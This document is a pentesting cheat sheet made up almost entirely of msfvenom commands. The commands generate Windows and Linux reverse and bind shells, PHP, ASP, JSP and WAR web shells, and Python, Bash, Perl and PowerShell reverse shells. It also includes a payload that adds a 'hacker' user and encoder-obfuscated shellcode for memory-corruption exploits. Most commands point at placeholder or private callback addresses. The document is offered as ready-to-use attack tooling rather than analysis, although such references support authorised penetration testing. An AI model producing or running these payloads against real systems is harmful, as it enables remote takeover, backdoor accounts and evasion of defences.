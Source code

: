 # Msfvenom

## Operating System Payloads

## Staged and Stageless

Windows Staged reverse TCP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Windows Stageless reverse TCP

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

Linux Staged reverse TCP

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

Linux Stageless reverse TCP

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Windows Payloads <a id="windows-payloads"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads <a id="linux-payloads"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```text
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Web Payloads

PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '' > shell.php && pbpaste >> shell.php
```

ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

## Scripting Payloads

Python

```text
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

PowerShell

```text
msfvenom -p windows/x64/powershell_reverse_tcp -o psh.ps1 -a x64 --platform windows LHOST=192.168.88.251 LPORT=8080
```

## Memory Corruption Payloads

Creating a msfvenom payload with an encoder while removing bad characters:

```text
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
msfvenom -a x64 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.20 LPORT=443 -b "\x00" -e x86/shikata_ga_nai -f c EXITFUNC=thread
```

